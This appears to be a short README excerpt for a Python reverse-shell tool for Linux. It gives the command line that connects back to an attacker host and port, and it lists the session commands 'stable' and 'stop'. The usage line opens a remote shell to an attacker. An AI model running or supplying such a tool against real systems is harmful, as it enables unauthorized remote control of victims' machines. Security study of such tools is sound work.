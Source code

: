 <h2>Linux</h2>
<h3>Linux Simple</h3>

Simple shell, usage:

*python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>*

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands
